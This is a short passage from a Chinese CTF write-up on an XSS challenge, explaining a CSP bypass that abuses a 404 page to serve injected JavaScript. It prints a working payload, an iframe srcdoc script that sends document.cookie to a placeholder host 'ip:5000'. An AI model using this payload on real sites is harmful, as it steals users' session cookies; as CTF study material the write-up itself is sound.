 ![image-20250211215627738](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211215627738.png)

可以看到成功执行了，也成功被csp拦了(

接下来的绕csp就其实很简单了，在前段时间的sekaiCTF做过相同的题

https://www.justus.pw/writeups/sekai-ctf/tagless.html

就是利用了404的页面来写入我们的js代码，再用src进行引入就行了

这里不讲太多，直接贴payload

```
<iframe srcdoc="<script src='/a/;fetch(%60http://ip:5000/%60+document.cookie);//'></script>"></iframe>
```

![image-20250211215934847](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211215934847.png)